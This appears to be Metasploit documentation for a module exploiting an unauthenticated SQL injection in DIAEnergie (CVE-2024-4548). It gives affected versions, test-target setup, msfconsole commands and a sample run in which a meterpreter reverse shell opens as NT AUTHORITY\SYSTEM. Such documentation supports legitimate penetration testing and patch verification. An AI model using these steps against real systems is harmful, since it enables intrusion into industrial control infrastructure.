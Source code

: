 ## Vulnerable Application

**Vulnerability Description**

This module exploits a SQL injection vulnerability in DIAEnergie <= v8.28.0 (CVE-2024-4548).

An unauthenticated remote attacker can exploit this vulnerability to inject an arbitrary script through a SQL injection vulnerability, which
can then be executed in the context of `NT AUTHORITY\SYSTEM`. The vulnerability is within the CEBC service, which listens by default on TCP
port 928. It accepts various user-controlled data, including `RecalculateHDMWYC` messages, which are insufficiently validated before using
them as part of a SQL query.

Versions <= 1.10.1.8610 are affected. Tenable published [TRA-2024-13](https://www.tenable.com/security/research/tra-2024-13) to cover the
security issues.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor]
(https://downloadcenter.deltaww.com/downloadCenterCounter.aspx?DID=39969&DocPath=1&hl=en-US).
For the product to work correctly, SQL Server (e.g., SQL Server Express) needs to be installed.

**Successfully tested on**

- DIAEnergie v1.10 on Windows 10 22H2
- DIAEnergie v1.9 on Windows 10 22H2

## Verification Steps

1. Install the SQL Server (Express)
2. Install DIAEnergie
3. Start `msfconsole` and run the following commands:

```
msf > use exploit/windows/scada/diaenergie_sqli
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/scada/diaenergie_sqli) > set RHOSTS <IP>
msf exploit(windows/scada/diaenergie_sqli) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Scenarios

Running the exploit against DIAEnergie v1.10 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf exploit(windows/scada/diaenergie_sqli) > exploit

[*] Started reverse TCP handler on 192.168.1.241:4444 
[*] 192.168.1.245:928 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.245:928 - The target appears to be vulnerable.
[*] 192.168.1.245:928 - Sending SQL injection...
[*] 192.168.1.245:928 - Triggering script execution...
[*] 192.168.1.245:928 - Cleaning up database...
[+] 192.168.1.245:928 - Script successfully injected, check thy shell.
[*] Sending stage (201798 bytes) to 192.168.1.245
[*] Meterpreter session 1 opened (192.168.1.241:4444 -> 192.168.1.245:50605) at 2024-07-29 23:59:53 -0400

meterpreter > shell
Process 6392 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4529]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

